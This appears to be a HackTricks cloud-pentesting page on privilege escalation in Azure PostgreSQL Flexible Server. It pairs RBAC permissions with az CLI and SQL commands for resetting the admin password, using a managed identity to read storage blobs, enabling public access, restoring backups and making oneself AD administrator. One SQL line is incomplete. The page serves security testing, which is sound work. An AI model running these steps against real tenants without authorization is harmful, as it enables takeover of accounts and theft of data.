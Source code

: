 # Az - PostgreSQL Privesc

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-postgresql.md
{{#endref}}

### `Microsoft.DBforPostgreSQL/flexibleServers/read` && `Microsoft.DBforPostgreSQL/flexibleServers/write`

With this permission, you can create, update, or delete PostgreSQL Flexible Server instances on Azure. This includes provisioning new servers, modifying existing server configurations, or decommissioning servers.

```bash
az postgres flexible-server create \
    --name <ServerName> \
    --resource-group <ResourceGroupName> \
    --location <Location> \
    --admin-user <AdminUsername> \
    --admin-password <AdminPassword> \
    --sku-name <SkuName> \
    --storage-size <StorageSizeInGB> \
    --tier <PricingTier> \
    --version <PostgreSQLVersion>
```

For example, this permissions allow changing the PostgreSQL password, usefull of course in case that PostgreSQL authentication is enabled.

```bash
az postgres flexible-server update \
    --resource-group <resource_group_name> \
    --name <server_name> \
    --admin-password <password_to_update>
```

Furthermore, with the permissions you can enalbe the assign identity, an opertate with the managed identity attached to the server. Here you can find all the extensions that Azure PostgreSQL flexible server supports [https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions](https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions). To be able to use these extensions some server parameters (azure.extensions) need to be changed. For example here with a managed identity that can access Azure Storage:

First we change the parameters and be sure the assigned identity is enabled:
```bash
az postgres flexible-server parameter set \
  --resource-group <YourResourceGroupName> \
  --server-name <YourServerName> \
  --name azure.extensions \
  --value "AZURE_STORAGE"

az postgres flexible-server identity update \
    --resource-group <YourResourceGroupName> \
    --server-name <YourServerName> \
    --system-assigned Enabled
```
```sql 

CREATE EXTENSION IF NOT EXISTS azure_storage;

CREATE EXTERNAL DATA SOURCE ManagedIdentity

SELECT azure_storage.account_add('<storage-account>', '<storage-key>');

SELECT *
FROM azure_storage.blob_get(
    '<storage-account>',
    '<container>',
    'message.txt',
    decoder := 'text'
) AS t(content text)
LIMIT 1;

```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az postgres flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```

### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.DBforPostgreSQL/flexibleServers/backups/read`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With this permissions you can restore a server from a backup with:

```bash
az postgres flexible-server restore \
  --resource-group <RESOURCE_GROUP> \
  --name <NEW_SERVER_NAME> \
  --source-server <SOURCE_SERVER_NAME> \
  --restore-time "<ISO8601_TIMESTAMP>" \
  --yes

```

### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforPostgreSQL/flexibleServers/administrators/write` && `Microsoft.DBforPostgreSQL/flexibleServers/administrators/read`

With this permission, you can configure Azure Active Directory (AD) administrators for a PostgreSQL Flexible Server. This can be exploited by setting oneself or another account as the AD administrator, granting full administrative control over the PostgreSQL server. Updating existing principal is not supported yet so if there is one created you must delete it first.

It's important that the flexible-server has a user assigned managed identities to use.

```bash
az postgres flexible-server ad-admin create \
    --resource-group <ResourceGroupName> \
    --server-name <ServerName> \
    --display-name <ADAdminDisplayName> \
    --identity <IdentityNameOrID> \
    --object-id <ObjectID>
```

{{#include ../../../banners/hacktricks-training.md}}
